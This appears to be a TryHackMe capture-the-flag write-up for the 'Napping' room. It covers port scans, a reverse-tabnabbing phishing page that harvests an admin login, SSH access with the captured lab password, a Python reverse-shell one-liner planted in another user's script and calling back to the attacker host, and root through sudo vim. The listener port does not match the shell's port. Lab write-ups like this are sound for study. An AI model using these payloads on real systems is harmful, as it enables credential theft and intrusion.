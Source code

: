 # Napping

**Room Link:** [https://tryhackme.com/r/room/nappingis1337](https://tryhackme.com/r/room/nappingis1337)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1028).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1029).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

#### Find Pages <a href="#find-pages" id="find-pages"></a>

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (1032).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "hi" > test.html
python2 -m SimpleHTTPServer 82
```

<figure><img src="../../.gitbook/assets/image (1030).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (1031).png" alt=""><figcaption></figcaption></figure>

**red.htm**

```
<!DOCTYPE html>
<html>
 <body>
  <script>
  window.opener.location = "http://$KALI:8000/redir.html";
  </script>
 </body>
</html>
```

**redir.html**

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="<https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css>">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>
<form action="/admin/login.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>
```



**Kali**

```
wireshark
```

For victim to download our red.html file

**Kali**

```
python2 -m SimpleHTTPServer 82
```

To host our fake login page

**Kali**

```
python2 -m SimpleHTTPServer 8000
```



<figure><img src="../../.gitbook/assets/image (1033).png" alt=""><figcaption></figcaption></figure>



**Wireshark filter**

```
tcp.port==8000 && ip.dst == $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1035).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1034).png" alt=""><figcaption></figcaption></figure>

## **TCP/22 - SSH**

**Kali**

```
ssh daniel@$VICTIM
Password: C@ughtm3napping123
```

## Lateral Movement

there is another user on this box. In their home directory they have a python script that looks like it checks the website. I added the following to the code to get a reverse shell.

<figure><img src="../../.gitbook/assets/image (1036).png" alt=""><figcaption></figcaption></figure>

**query.py**

```
import os,pty,socket;s=socket.socket();s.connect(("$KALI",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```

<figure><img src="../../.gitbook/assets/image (1037).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1338
```

<figure><img src="../../.gitbook/assets/image (1038).png" alt=""><figcaption></figcaption></figure>

**Full TTY**

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```

## **Privilege Escalation**

**Exploit:** [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)

**Victim(adrian)**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (1040).png" alt=""><figcaption></figcaption></figure>

**Victim(adrian)**

```
sudo vim -c ':!/bin/sh'
id
```

<figure><img src="../../.gitbook/assets/image (1041).png" alt=""><figcaption></figcaption></figure>



